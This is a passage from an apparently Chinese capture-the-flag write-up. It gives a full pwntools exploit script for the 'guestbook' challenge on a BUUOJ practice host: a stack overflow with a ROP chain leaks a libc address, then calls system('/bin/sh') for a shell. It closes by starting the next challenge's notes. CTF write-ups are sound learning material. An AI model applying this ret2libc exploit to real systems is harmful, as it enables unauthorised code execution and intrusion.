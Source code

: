 ```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',26270)
e=  ELF('./guestbook')
offset = 0x88
pop_rdi_ret = 0x4006F3
pop_rsi_r15_ret = 0x4006f1

payload1 = b'A'* offset + p64(pop_rsi_r15_ret) + p64(e.got['write']) + p64(0) + p64(pop_rdi_ret) + p64(1) + p64(e.plt['write']) + p64(e.sym['main'])
p.sendline(payload1)
p.recvuntil(b'I have received your message, Thank you!\n')
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = b'A'* offset + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload2)
p.interactive() 
```

运行即得flag

![](img/cf577b6c33e59f0331710148ed2ef9e2.png)

# 0x025.[BJDCTF 2nd]ydsneedgirlfriend2 - overwrite

惯例的`checksec`，开了NX和canary
